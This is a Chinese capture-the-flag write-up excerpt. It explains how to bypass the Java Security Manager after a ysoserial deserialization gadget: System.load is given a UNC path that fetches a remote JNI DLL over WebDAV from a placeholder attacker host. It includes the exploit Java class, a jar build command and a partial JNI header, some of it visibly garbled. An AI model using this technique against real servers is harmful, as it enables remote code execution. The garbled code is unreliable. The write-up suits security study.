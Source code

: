 构造见https://github.com/Jayl1n/ysoserial/blob/master/src/main//ysoserial/payloads/CommonsCollections8.

下面要加载 dll，用 JNI 绕 JSM。

同样因为没有写权限，且 dll 无法一起打包到 jar 里，所以要从网络上加载 dll。

这里利用 System.load 的一个特性——可以使用 UNC 路径，加载远程的 dll。

为什么可以使用 UNC 呢？来看下 System.load 的调用过程。

System.load

![](https://www.xctf.org.cn/media/image/2e40e4f6abff3f6d8247c7aa587d4bc587d10a1a.png)

调用了 `Runtime.getRuntime().load0`

1.Runtime.getRuntime().load0

![](https://www.xctf.org.cn/media/image/675110fa621c90cd37f1ee8c046099159a459fcb.png)

在这里会判断 filename 是否是一个绝对路径，如果不是就直接抛出异常，是就进一步加载。

1.File.isAbsolute

![](https://www.xctf.org.cn/media/image/0171568e8cb715a60a2491e0c1fa4451a08d9cb7.png)

再看看 File 是如何判断是否是绝对路径的。

根据描述，linux下要求以 `/` 开头。windows下，要求以盘符或者 `\\\\`开头。

emm 综上，所以这里可以使用 UNC 路径。

下面是另一个坑，UNC 默认是走 445 端口的，如果没有特殊情况，公网上都是屏蔽了这个端口的。

这里利用 windows 一个特性，在开启了 webclient 服务的情况下，UNC 访问 445 失败时，会尝试访问目标服务器80端口的 webdav 去加载资源 (‾◡◝)， 这一点 hint 已经提示过了。

EXP
类
R.

```
public class R { static { System.load("\\xxx.xxx.xxx.xxx\JNI.dll"); }

public static native void exec(String cmd);
public R(String cmd) {
    exec(cmd);
}
} 
```

执行命令

`c R. jar cvf R.jar R.class`

将打包的 R.jar 放到服务器上的 web 服务下。

DLL
R.h
```
ifdef __cplusplus
extern "C" {

endif
JNIEXPORT void JNICALL _R_exec
(JNIEnv *, jclass, jstring);
ifdef __cplusplus
}

endif
endif
```